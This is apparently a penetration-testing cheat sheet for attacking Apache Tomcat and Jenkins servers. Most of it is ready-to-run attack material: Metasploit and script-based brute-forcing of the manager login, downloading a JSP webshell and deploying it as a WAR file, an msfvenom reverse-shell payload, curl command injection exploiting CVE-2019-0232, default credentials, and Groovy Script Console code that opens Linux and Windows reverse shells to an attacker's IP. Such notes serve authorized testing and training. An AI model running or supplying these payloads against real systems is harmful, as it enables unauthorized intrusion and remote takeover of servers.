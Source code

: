 # Servlet Containers / Software Development

In this section, we will discuss the following technologies:
- Tomcat
- Jenkins

## Tomcat

### Discovery & Enumeration

````
├── bin
├── conf
│   ├── catalina.policy
│   ├── catalina.properties
│   ├── context.xml
│   ├── tomcat-users.xml
│   ├── tomcat-users.xsd
│   └── web.xml
├── lib
├── logs
├── temp
├── webapps
│   ├── manager
│   │   ├── images
│   │   ├── META-INF
│   │   └── WEB-INF
|   |       └── web.xml
│   └── ROOT
│       └── WEB-INF
└── work
    └── Catalina
        └── localhost
-----------------------------------------------------------------------
webapps/customapp
├── images
├── index.jsp
├── META-INF
│   └── context.xml
├── status.xsd
└── WEB-INF
    ├── jsp
    |   └── admin.jsp
    └── web.xml
    └── lib
    |    └── jdbc_drivers.jar
    └── classes
        └── AdminServlet.class
````
Version
````
http://<domain>:8080/invalid
$ curl -s http://<domain>:8080/docs/ | grep Tomcat
````

Directories
````
$ gobuster dir -u http://<domain>:8180/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
````

**Login Brute Force**
````
Metasploit
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set VHOST <domain>
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RPORT <server_port>
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set stop_on_success true
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts <server_ip>

PASS_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
USERPASS_FILE     /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_userpass.txt
USER_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt
````
````
mgr_brute.py
$ python3 mgr_brute.py -U http://<domain>:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
````

### Code Execution

**War File Upload**
````
1- /manager/html
$ wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
$ zip -r backup.war cmd.jsp
4 - Browser > Select backup.war > deploy
$ curl http://<domain>:8180/backup/cmd.jsp?cmd=id
````
````
Metasploit
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Our_IP> LPORT=<Our_PORT> -f war > backup.war
$ nc -lnvp 4443
or
multi/http/tomcat_mgr_upload
````

### Tomcat CGI

CVE-2019-0232 is a critical security issue that could result in remote code execution. This vulnerability affects Windows systems that have the enableCmdLineArguments feature enabled. Versions 9.0.0.M1 to 9.0.17, 8.5.0 to 8.5.39, and 7.0.0 to 7.0.93 of Tomcat are affected.

**Enumeration**
````
$ nmap -p- -sC -Pn 10.129.204.227 --open 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-23 13:57 SAST
Nmap scan report for 10.129.204.227
Host is up (0.17s latency).
Not shown: 63648 closed tcp ports (conn-refused), 1873 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
22/tcp    open  ssh
| ssh-hostkey: 
|   2048 ae19ae07ef79b7905f1a7b8d42d56099 (RSA)
|   256 382e76cd0594a6e717d1808165262544 (ECDSA)
|_  256 35096912230f11bc546fddf797bd6150 (ED25519)
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
8009/tcp  open  ajp13
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp  open  http-proxy
|_http-title: Apache Tomcat/9.0.17
|_http-favicon: Apache Tomcat
47001/tcp open  winrm
````
**Finding a CGI script**
````
$ ffuf -w /usr/share/dirb/wordlists/common.txt -u http://<server_ip>:8080/cgi/FUZZ.cmd
$ ffuf -w /usr/share/dirb/wordlists/common.txt -u http://<server_ip>:8080/cgi/FUZZ.bat
````
**Exploitation**
````
$ curl http://<server_ip>:8080/cgi/welcome.bat?&dir
$ curl http://<server_ip>:8080/cgi/welcome.bat?&set
$ curl http://<server_ip>:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
````

## Jenkins

Jenkins runs on Tomcat port 8080 by default. It also utilizes port 5000 to attach slave servers. This port is used to communicate between masters and slaves. Jenkins can use a local database, LDAP, Unix user database, delegate security to a servlet container, or use no authentication at all. Administrators can also allow or disallow users from creating accounts.

**Enumeration**
````
http://<domain>:8000/configureSecurity/
Default Creddentials -> admin:admin
````

**Code Execution**

Once we have gained access to a Jenkins application, a quick way of achieving command execution on the underlying server is via the Script Console. 
````
http://<domain>:8000/script
````

Single Command - Linux
````
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
````

Single Command - Windows
````
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
````

Linux - Reverse Shell
````
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<Our_IP>/<Our_Port>;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
````

Windows - Reverse Shell
````
String host="<Our_IP>";
int port=<Our_Port>;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
````
